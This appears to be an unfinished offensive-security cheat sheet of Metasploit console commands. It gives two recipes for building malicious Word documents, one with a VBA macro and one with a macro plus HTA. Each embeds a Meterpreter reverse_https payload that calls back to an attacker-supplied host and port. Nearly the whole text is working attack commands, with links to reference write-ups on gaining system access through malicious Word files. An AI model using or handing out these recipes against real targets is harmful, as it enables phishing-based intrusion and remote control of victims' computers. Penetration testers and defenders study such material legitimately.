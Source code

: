 # Metasploit

TODO: Finish the rest

## 01 - VBA Macro

```
msf > use exploit/windows/fileformat/office_word_macro

set payload windows/x64/meterpreter/reverse_https

set customtemplate /path/to/document.docx

set lhost <IP>

set lport <PORT>

run
```

## 02 - VBA Macro with HTA

```
msf > use exploit/windows/fileformat/office_word_hta

set payload windows/x64/meterpreter/reverse_https

set lhost <IP>

set lport <PORT>

run
```

---
## References

- [Rapid7: Metasploit Framework Exploit FileFormat Office Word Macro](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/office_word_macro.md)

- [Network Intelligence: Getting System Access Using Malicious Word File](https://networkintelligence.ai/getting-system-access-using-malicious-word-file/)